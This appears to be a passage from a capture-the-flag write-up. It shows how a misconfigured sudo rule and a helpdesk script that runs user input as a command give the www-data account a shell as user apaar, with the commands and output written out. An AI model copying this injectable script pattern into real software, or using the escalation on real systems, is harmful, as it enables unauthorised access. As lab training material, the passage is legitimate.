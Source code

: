 Running `sudo -l` shows us:

```bash
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

Looking at the script:

```bash
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

<br>

## apaar user

We have the ability to run the script as user **apaar** and it looks like whatever you enter into the second question gets stored in **$msg** and then gets run. We should be able to get a shell as apaar with this by entering **/bin/bash** into the second question:

`sudo -u apaar /home/apaar/.helpline.sh`

```bash
Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: asdf
Hello user! I am asdf,  Please enter your message: /bin/bash
whoami
apaar
```

I fix my shell and then head over to **/home/apaar** where we find **local.txt** which contains the **user flag objective**.

`wc -c local.txt`

```bash
46 local.txt
```
